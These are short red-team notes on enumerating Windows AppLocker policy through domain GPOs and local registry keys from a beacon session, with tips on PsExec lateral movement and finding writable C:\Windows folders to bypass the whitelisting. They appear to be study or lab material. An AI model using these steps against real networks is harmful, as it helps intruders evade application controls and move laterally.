 # Applocker

# Enumerate the Applocker policy via GPO

    beacon> powershell Get-DomainGPO -Domain dev-studio.com | ? { $_.DisplayName -like "*AppLocker*" } | select displayname, gpcfilesyspath

    beacon> download \\dev-studio.com\SysVol\dev-studio.com\Policies\{7E1E1636-1A59-4C35-895B-3AEB1CA8CFC2}\Machine\Registry.pol

    PS C:\Users\Attacker> Parse-PolFile .\Desktop\Registry.pol

# Enumerate the Applocker policy via Local Windows registry on machine 

    PS C:\Users\Administrator> Get-ChildItem "HKLM:Software\Policies\Microsoft\Windows\SrpV2"

    PS C:\Users\Administrator> Get-ChildItem "HKLM:Software\Policies\Microsoft\Windows\SrpV2\Exe"

# Using powershell on local system

    PS C:\Users\Administrator> $ExecutionContext.SessionState.LanguageMode
    ConstrainedLanguage

# Navigating Laterally via PSEXEC is fine, as service binary is uploaded in C:\Winodws path which is by default whitelisted

# Find the writable path within C:\winodws to bypass Applocker

    beacon> powershell Get-Acl C:\Windows\Tasks | fl

